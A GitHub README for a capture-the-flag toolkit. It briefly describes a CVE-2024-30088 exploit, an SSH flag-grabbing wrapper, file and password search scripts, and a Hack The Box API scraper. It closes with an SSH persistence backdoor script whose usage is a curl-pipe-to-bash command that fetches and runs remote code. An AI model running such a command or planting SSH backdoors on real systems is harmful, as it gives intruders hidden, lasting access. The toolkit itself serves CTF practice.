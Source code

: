 # CTF

## CVE-2024-30088_flags.cpp - Exploit for CVE-2024-30088 to Capture Flags

This is a modified exploit for **CVE-2024-30088**, designed to capture flags from a Windows system by exploiting a recent vulnerability. At the time, the exploit was effective, but it is expected to be patched on most up-to-date systems. It was fun while it lasted.


## flagssh.sh - SSH Wrapper for Snatching Flags and Initial Enumeration

`flagssh.sh` is an SSH wrapper script to automate flag retrieval during SSH authentication, targeting both user and root flags on remote systems. In addition to capturing flags, it has great potential for adding more functionality to assist with initial enumeration, such as checking user permissions, sudo privileges, and transferring necessary tools for further exploitation.

#### Features:
- Automates SSH login and flag retrieval (user.txt, root.txt).
- Supports both password-based and key-based SSH authentication.
- Provides a flexible framework for adding additional enumeration tasks during the initial foothold phase.

#### Usage:
```bash
flagssh.sh <username>@<hostname> [<password_or_ssh_key>]
```

## grepper.sh - Targeted Search for Hidden Files in CTF Challenges

`grepper.sh` is a tool for (CTF) challenges where critical information, like passwords or flags, is hidden deep within the filesystem. The tool was created after encountering a CTF box with a hidden password buried in a `.log.gz` file, which was frustrating to locate manually. This script automates the search process by grepping for specific keywords in common directories and compressed files, making it easier to find those elusive clues. While it's a resource intensive tool, it is often a last resort after traditional enumeration techniques have failed.

#### Features:
- Searches for keywords in common system directories and within `.gz` compressed files.
- Designed to help in CTF scenarios where important files or logs are buried deep within the filesystem.
- Provides quick searches in common directories like `/opt` and `/var`.
- Automatically generates keywords based on system usernames and hostnames.
- Supports verbose output and searching binary files.

#### Usage:
```bash
grepper.sh [--all] [--path=dir1] [--path=dir2] ... [--verbose] [--auto] [--quick] [--gzip] [keyword1 [keyword2 ...]]
```

- `--all`: Include binary files in the search.
- `--path=dir`: Specify one or more directories to search.
- `--verbose`: Print detailed command output.
- `--auto`: Automatically generate keywords from system users and hostnames.
- `--quick`: Quickly search common directories `/opt` and `/var`.
- `--gzip`: Enable searching within `.gz` compressed files.


## htb-usercontent.py - Fetch Hack The Box User-Generated Content

`htb-usercontent.py` is a script that interacts with the Hack The Box (HTB) API to retrieve all content generated by a specific user. This includes details about machines, challenges, and writeups the user has created. The tool is useful for OSINT allowing to quickly gain insights into a user's contributions on the HTB platform, such as which boxes they’ve created.


#### Usage:
```bash
htb-usercontent.py <user_id> [--proxy] [--ignore-ssl] [--machines] [--challenges] [--writeups]
```

- `<user_id>`: The HTB user ID you want to query.
- `--proxy`: Route requests through a proxy (useful for debugging).
- `--ignore-ssl`: Ignore SSL certificate verification.
- `--machines`: Print only information about machines created by the user.
- `--challenges`: Print only information about challenges created by the user.
- `--writeups`: Print only information about writeups authored by the user.

## quickpass.py - Search for Passwords in rockyou.txt Based on Keywords

`quickpass.py` is a simple yet effective script that searches the `rockyou.txt` wordlist for passwords related to specific keywords. It is particularly useful for boxes, where content creators sometimes use passwords that have some relation to the name of the box, service, or username. The script also supports searching in 1337-speak format for additional variations of the keywords.

#### Features:
- **Keyword-based password search**: Searches for passwords in `rockyou.txt` that match specific keywords, which can be related to the box name or service.
- **Leet-speak support**: Optionally convert the keyword into leet-speak (e.g., `h4ck3r`) and search for its variations.
- **Write results to file**: Saves matching passwords into `quickwins.txt` for easy access.

#### Usage:
```bash
quickpass.py <keywords> [--leet]
```

## ssh-backdoor.sh - Quick and Easy SSH Persistence

`ssh-backdoor.sh` is my absolute favourite script. It simplifies the process of setting up SSH persistence by adding public keys to the target's `~/.ssh/authorized_keys` file. This script ensures a secure and reliable backdoor for remote access if SSH login is available on the target machine. It performs the necessary directory and file setup, including backing up existing `authorized_keys`, setting appropriate permissions, and appending keys to the file.

The script is easy to curl into bash for fast execution and clean persistence.


#### Usage:
```bash
curl -sSL <script_url> | bash
```


